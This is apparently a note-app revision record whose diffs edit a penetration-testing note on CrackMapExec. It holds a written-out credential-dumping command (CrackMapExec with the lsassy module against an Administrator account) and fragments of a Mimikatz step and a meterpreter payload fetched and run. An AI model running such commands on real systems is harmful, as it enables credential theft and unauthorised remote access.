 id: f273dc857413438389ee78535d93e5d2
parent_id: 09e699346b9f4cf09e464720d7f05d59
item_type: 1
item_id: 675162c6268c4652933f50981ec28893
item_updated_time: 1643895643887
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"words/\\\n\\\n\"],[1,\"> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@55w0rd!' -M lsassy\\\n\\\n\"],[0,\"https://\"]],\"start1\":64,\"start2\":64,\"length1\":16,\"length2\":93},{\"diffs\":[[0,\"102da)\\\n\\\n\"],[1,\"## Using Module \\\n\\\n\"],[0,\"To list \"]],\"start1\":1715,\"start2\":1715,\"length1\":16,\"length2\":34},{\"diffs\":[[0,\"2)\\\n\\\n\"],[-1,\"## Using Module Mimikatz\\\n\\\n\"],[0,\"For \"]],\"start1\":1848,\"start2\":1848,\"length1\":34,\"length2\":8},{\"diffs\":[[0,\"ptions\\\n\\\n\"],[1,\"### Mimikatz\\\n\\\n\"],[0,\"![56ae3e\"]],\"start1\":1878,\"start2\":1878,\"length1\":16,\"length2\":30},{\"diffs\":[[0,\"8088/meterpreter\"],[-1,\"\\\\\"],[0,\"_shell.exe mterp\"]],\"start1\":2565,\"start2\":2565,\"length1\":33,\"length2\":32},{\"diffs\":[[0,\"d /c meterpreter\"],[1,\"\\\\\"],[0,\"_shell.exe'\\\n\\\n![0\"]],\"start1\":2619,\"start2\":2619,\"length1\":32,\"length2\":33}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-03T13:41:32.472Z
created_time: 2022-02-03T13:41:32.472Z
type_: 13